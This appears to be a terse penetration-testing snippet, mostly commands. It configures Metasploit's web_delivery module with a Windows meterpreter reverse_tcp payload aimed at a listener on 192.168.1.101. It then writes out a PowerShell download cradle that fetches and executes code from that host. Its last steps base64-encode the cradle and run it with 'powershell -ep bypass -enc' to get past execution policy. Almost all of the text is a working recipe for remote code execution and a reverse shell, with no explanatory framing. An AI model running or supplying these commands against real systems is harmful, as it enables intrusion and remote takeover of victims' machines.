 
    msf > use exploit/multi/script/web_delivery
    
    msf exploit(web_delivery) > set target 2
    target => 2

    msf exploit(web_delivery) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp

    msf exploit(web_delivery) > set lhost 192.168.1.101
    lhost => 192.168.1.101
    
    msf exploit(web_delivery) > set lport 6666
    lport => 6666

    msf exploit(web_delivery) > set SRVPORT 8081
    SRVPORT => 8081

    msf exploit(web_delivery) > set uripath /
    uripath => /
    
    msf exploit(web_delivery) > exploit
    
`powershell Exec  in 1.txt`
  
    $n=new-object net.webclient;

    $n.proxy=[Net.WebRequest]::GetSystemWebProxy();

    $n.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;
    
    IEX $n.downloadstring('http://192.168.1.101:8081/');
    
    cat 1.txt | iconv --to-code UTF-16LE |base64
    
    powershell -ep bypass -enc  base64encode  in 1.txt
